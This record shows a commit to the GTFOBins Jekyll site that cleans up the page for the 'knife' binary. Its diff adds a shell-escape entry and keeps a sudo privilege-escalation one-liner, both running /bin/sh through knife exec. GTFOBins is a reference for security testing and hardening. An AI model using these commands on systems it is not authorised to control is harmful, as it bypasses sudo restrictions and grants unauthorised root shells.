

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/knife.md, in a window 1280 px wide. Shown: the top 551 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Cleanup knife

```diff
--- a/_gtfobins/knife.md
+++ b/_gtfobins/knife.md
@@ -1,8 +1,10 @@
 ---
+description: This is capable of running [`ruby`](/gtfobins/ruby/) code.
 functions:
+  shell:
+    - code: |
+        knife exec -E 'exec "/bin/sh"'
   sudo:
-    - description: Running /bin/sh via Ruby's exec function.
     - code: |
-        sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
-
+        sudo knife exec -E 'exec "/bin/sh"'
 ---
```
